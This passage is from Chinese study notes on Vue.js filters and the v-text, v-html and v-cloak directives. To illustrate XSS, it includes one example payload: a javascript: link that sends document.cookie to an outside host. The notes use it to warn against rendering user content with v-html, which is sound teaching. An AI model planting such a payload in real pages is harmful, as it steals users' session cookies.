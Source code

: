 ```html
            // mySlice(value) {
            //     return value.slice(0, 4)
            // }
        }
    })

    new Vue({
        el: '#root2',
        data: {
            msg: 'hello, atGuigu'
        }
    })
</script>

```

总结过滤器：

* 定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）
* 语法：
  1. 注册过滤器：Vue.filter(name, callback) 或 new Vue{filters:{}}
  2. **使用过滤器：{{xxx | 过滤器名}} 或 v-bind: 属性 = ‘xxx | 过滤器名’，v-model不好使**
* 备注：
  1. 过滤器也可以接收额外的参数、多个过滤器也可以串联
  2. 并没有改变原本的数据，是产生新的对应数据

## 15_内置指令

### cookie的工作原理（简略）与XSS攻击

![IMG_0055(20221010-215107)](D:\QQ下载和缓存\MobileFile\IMG_0055(20221010-215107).JPG)

* cookie的本质是字符串，类似于JSON，有键值对
* chrome浏览器会在本地磁盘存储许多cookie，cookie能被网站识别并登陆

```
str: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟，我找到你想要的东西了！</a>'
```

* document.cookie会获取当前网站cookie，如果被拿走并破解就废了

---

* v-text指令：
  1. 作用：向其所在的节点中渲染文本内容
  2. 与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会

* v-html指令
  1. 与text不同的是，可以解析文本标签 `name: '<h3>你好</h3>'`
  2. **在网站上动态渲染任意html是非常危险的，容易导致XSS（冒充用户之手）攻击**
  3. 一定要在可信的内容上使用v-html，永远不要用在用户提交的内容上

* v-cloak指令（没有值）
  1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删除到v-cloak属性
  2. 使用CSS配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题

